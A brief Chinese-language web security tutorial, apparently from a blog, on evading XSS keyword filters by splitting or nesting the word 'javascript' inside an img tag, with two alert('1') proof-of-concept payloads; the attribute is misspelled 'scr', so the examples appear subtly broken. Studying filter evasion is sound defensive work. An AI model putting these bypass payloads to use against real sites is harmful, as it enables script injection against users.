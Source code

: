 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)XSS关键字拆分嵌套
空格或回车Tab,利用关键字拆分绕过：
```
<img scr=''javas cript:alert('1')'' width=8>
```
js中除了引号中分隔或遇到分号结束，额外空白都无所谓
```
<img scr=''javasjavascriptcript:alert('1')'' width=8>
```
__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
